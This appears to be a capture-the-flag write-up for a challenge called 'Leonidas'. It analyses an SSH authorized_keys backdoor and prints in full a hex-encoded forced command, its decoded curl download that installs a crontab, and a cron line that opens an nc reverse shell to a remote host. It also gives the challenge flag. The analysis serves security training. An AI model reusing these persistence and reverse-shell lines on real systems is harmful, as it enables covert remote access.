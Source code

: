 # Leonidas
## Description

![](img/20241031132332.png)

## Solution

Using the provided SSH private key, it is possible to log in to `testuser`'s account on the `srv-test23.cypherfix.tcc` server.

```
$ ssh -i testuser testuser@srv-test23.cypherfix.tcc
```

Looking around and specifically at the `.ssh/authorized_keys` file reveals that before giving the SSH user a shell, the key's `command` option is set to evaluate an encoded command.

```
testuser@38c62c70b10e:~$ cat .ssh/authorized_keys 
no-user-rc,no-X11-forwarding,command="`#! /bin/bash`;eval $(echo 6375726c202d73202d4120274c656f6e69646173212049206861766520707265706172656420627265616b6661737420616e6420617465206865617274696c792e2e2e20466f7220746f6e696768742c2077652064696e6520696e2068656c6c2121205530633564324a48624442615657784655465661545646565a44645a5747513057564d784e4531556248424d565752445932706a64475177526b7057626a41392720687474703a2f2f31302e39392e32342e32343a38302f2e63726f6e202d6f202e63726f6e3b2063726f6e746162202e63726f6e20323e202f6465762f6e756c6c3b2f62696e2f62617368 | xxd -r -ps)" ssh-rsa AAAAB3N1yc2EAA...tvLoWQ== testuser@cypherfix.tcc
```

The command is shown decoded below. It issues an HTTP request to a remote server to download a file named `.cron` and replaces the user's crontab file with it. Only then, it starts `/bin/bash` to act as a regular shell.

```
curl -s -A 'Leonidas! I have prepared breakfast and ate heartily... For tonight, we dine in hell!! U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9' http://10.99.24.24:80/.cron -o .cron; crontab .cron 2> /dev/null;/bin/bash
```

Although not important for the challenge's solution, the `.cron` file's content is shown below. The command tries to establish a reverse shell to a remote server every 5 minutes.

```
testuser@38c62c70b10e:~$ cat .cron 
*/5 * * * * nc 203.0.113.144 44444 -e /bin/bash
```

Double decoding the base64-encoded string in the `curl` command's `-A` parameter (user agent) reveals the flag.

```
$ echo U0c5d2JHbDBaVWxFUFVaTVFVZDdZWGQ0WVMxNE1UbHBMVWRDY2pjdGQwRkpWbjA9 | base64 -d | base64 -d
HopliteID=FLAG{awxa-x19i-GBr7-wAIV}
```

## Flag

`FLAG{awxa-x19i-GBr7-wAIV}`